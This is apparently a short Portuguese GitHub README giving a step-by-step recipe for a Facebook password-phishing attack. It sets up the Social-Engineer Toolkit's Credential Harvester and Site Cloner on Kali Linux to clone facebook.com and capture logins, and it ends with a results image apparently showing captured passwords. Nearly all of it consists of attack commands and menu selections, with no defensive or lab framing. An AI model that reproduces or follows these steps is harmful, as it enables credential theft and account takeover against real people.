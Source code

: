 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Configuração de rede: ```Placa em modo brigde ```
- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` 1) Social-Engineering Attacks ```
- Vetor de ataque: ``` 2) Web Site Attack Vectors ```
- Método de ataque: ``` 3) Credential Harvester Attack Method ```
- Método de ataque: ``` 2) Site Cloner ```
- set:webattack> IP address for the POST back in Harvester/Tabnabbing [seu Ip aparece aqui]: ``` Tecle Enter ```
- URL para clone: http://www.facebook.com

### Resutados

![Alt text](./passwd.png "Optional title")
